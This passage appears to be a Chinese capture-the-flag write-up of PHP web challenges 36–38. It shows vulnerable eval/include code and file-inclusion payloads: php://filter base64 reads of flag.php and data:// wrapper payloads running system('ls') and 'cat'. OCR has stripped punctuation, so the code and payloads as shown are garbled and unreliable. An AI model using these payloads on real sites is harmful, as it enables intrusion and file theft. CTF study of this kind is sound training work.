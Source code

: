 c=include$_GET[a]&a=phpfilterread=convert.base64-encoderesource=flag.php

c=include$_GET[1]&1=phpfilterread=convert.base64-encoderesource=flag.php
web36~文件包含绕过
php
​
error_reporting(0);
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match(flagsystemphpcatsortshell. '`echo;(=[0-9]i, $c)){
eval($c);
}

}else{
highlight_file(__FILE__);
}
多过滤了数字，继续打。

c=include$_GET[a]&a=phpfilterread=convert.base64-encoderesource=flag.php
web37~data协议
php
​
flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match(flagi, $c)){
include($c);
echo$flag;

}

}else{
highlight_file(__FILE__);
}
过滤了flag ，又是 include 文件包含

利用伪协议读flag

data，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data流会被当作php文件执行
payload

c=datatextplain,php system(ls);
# httpswww.php.netmanualzhwrappers.data.php

c=datatextplain,php system('cat f');
web38~data协议
php

flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match(flagphpfilei, $c)){
        include($c);
        echo $flag;
    